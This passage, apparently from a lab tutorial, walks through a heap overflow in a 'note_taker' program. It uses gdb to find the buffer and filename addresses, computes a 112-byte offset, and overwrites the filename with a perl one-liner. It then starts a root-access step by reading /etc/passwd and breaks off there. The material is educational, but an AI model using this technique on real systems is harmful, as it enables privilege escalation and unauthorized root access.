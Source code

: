```console
	0xb7fff000 0xb8000000     0x1000    0x28000 /usr/lib/i386-linux-gnu/ld-2.30.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
We find that the heap is located at the address **0x804d000**. We can then take a look at its memory.
```console
(gdb) x/120x 0x804d000
[...]
0x804d190:	0x00000000	0x00000000	0x00000000	0x00000071
0x804d1a0:	0x41414141	0x00000000	0x00000000	0x00000000
0x804d1b0:	0x00000000	0x00000000	0x00000000	0x00000000
```
We have found that our buffer variable is located at address **0x804d1a0** and if we continue a bit further we find the datafile variable located at address **0x804d210**.
```console
(gdb)
0x804d200:	0x00000000	0x00000000	0x00000000	0x00000021
0x804d210:	0x7261762f	0x746f6e2f	0x00007365	0x00000000
0x804d220:	0x00000000	0x00000000	0x00000000	0x00021dd9
```
We can then calculate the offset between the two locations :
```console
(gdb) p/d 0x804d210 - 0x804d1a0
$1 = 112
```

#### Using perl/python script
Since in the last try we printed 120 characters and the last 8 bytes were overflowing the datafile variable, we can assume that we need to fill 112 bytes before our file name.

```console
$ ./note_taker $(perl -e 'print "A"x112 . "/var/test"')
[DEBUG] buffer @ 0x804d1a0: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/var/test'
[DEBUG] datafile @ 0x804d210: '/var/test'
Note has been saved. 
double free or corruption (out)
Aborted
$
```
As expected the correct filename is displayed.

### Gaining root access

First of all before doing anything fancy let's backup our `/etc/passwd` file :

```console
$ cp /etc/passwd /tmp/passwd.bkup
$
```

Next let's examine what the `/etc/passwd` file looks like :

```console
$ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
$
```
